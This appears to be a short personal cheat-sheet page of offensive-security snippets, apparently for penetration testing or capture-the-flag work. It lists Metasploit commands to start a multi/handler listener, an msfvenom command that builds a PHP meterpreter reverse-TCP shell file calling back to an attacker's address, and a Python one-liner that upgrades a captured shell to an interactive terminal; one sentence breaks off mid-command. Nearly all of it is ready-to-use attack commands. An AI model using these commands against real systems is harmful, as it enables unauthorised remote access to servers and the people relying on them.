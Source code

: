 ```yaml
---
title: /snippets
layout: page
permalink: /snippets
---
```


### Metasploit
#### Handlers
```bash 
msf6 > use exploit/multi/handler
msf6 > set PAYLOAD <Payload name>
msf6 > set LHOST <LHOST value>
msf6 > set LPORT <LPORT value>
msf6 > set ExitOnSession false
msf6 > exploit -j -z
```
Once the required values are completed the following command will execute your handler – ‘msfconsole -L -r 

#### Scripting Payloads
###### PHP
```bash
$ msfvenom -p php/meterpreter_reverse_tcp lhost=<your-IP-address> 
lport=<your-port-address> -o shell.php
```


### Python
##### spawn a terminal 
```python
$ python -c 'import pty;pty.spawn("/bin/bash")';
```
